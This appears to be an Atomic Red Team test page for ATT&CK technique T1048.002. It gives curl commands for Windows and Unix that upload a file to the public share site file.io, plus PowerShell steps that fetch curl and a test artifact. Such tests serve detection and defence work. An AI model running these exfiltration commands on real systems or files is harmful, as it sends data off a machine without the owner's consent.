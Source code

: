 # T1048.002 - Exfiltration Over Alternative Protocol - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048/002)

<blockquote>Adversaries may steal data by exfiltrating it over an asymmetrically encrypted network protocol other than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server.

Asymmetric encryption algorithms are those that use different keys on each end of the channel. Also known as public-key cryptography, this requires pairs of cryptographic keys that can encrypt/decrypt data from the corresponding key. Each end of the communication channels requires a private key (only in the procession of that entity) and the public key of the other entity. The public keys of each entity are exchanged before encrypted communications begin.

Network protocols that use asymmetric encryption (such as HTTPS/TLS/SSL) often utilize symmetric encryption once keys are exchanged. Adversaries may opt to use these encrypted mechanisms that are baked into a protocol. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data HTTPS using curl windows](#atomic-test-1---exfiltrate-data-https-using-curl-windows)

- [Atomic Test #2 - Exfiltrate data HTTPS using curl freebsd,linux or macos](#atomic-test-2---exfiltrate-data-https-using-curl-freebsdlinux-or-macos)

<br/>

## Atomic Test #1 - Exfiltrate data HTTPS using curl windows

Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** Windows

**auto_generated_guid:** 1cdf2fb0-51b6-4fd8-96af-77020d5f1bf0

#### Inputs:

| Name       | Description         | Type | Default Value                              |
| ---------- | ------------------- | ---- | ------------------------------------------ |
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact |
| curl_path  | path to curl.exe    | path | C:&#92;Windows&#92;System32&#92;Curl.exe   |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{curl_path} -k -F "file=@#{input_file}" https://file.io/
```

#### Dependencies: Run with `powershell`!

##### Description: Curl must be installed on system.

##### Check Prereq Commands:

```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://curl.se/windows/dl-8.4.0_6/curl-8.4.0_6-win64-mingw.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-8.4.0_6-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
```

##### Description: #{input_file} must be exist on system.

##### Check Prereq Commands:

```powershell
if (Test-Path "#{input_file}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{input_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1048.002/src/artifact" -OutFile "#{input_file}"
```

<br/>
<br/>

## Atomic Test #2 - Exfiltrate data HTTPS using curl freebsd,linux or macos

Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** macOS, Linux

**auto_generated_guid:** 4a4f31e2-46ea-4c26-ad89-f09ad1d5fe01

#### Inputs:

| Name       | Description         | Type | Default Value                              |
| ---------- | ------------------- | ---- | ------------------------------------------ |
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact |

#### Attack Commands: Run with `bash`!

```bash
curl -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```

<br/>
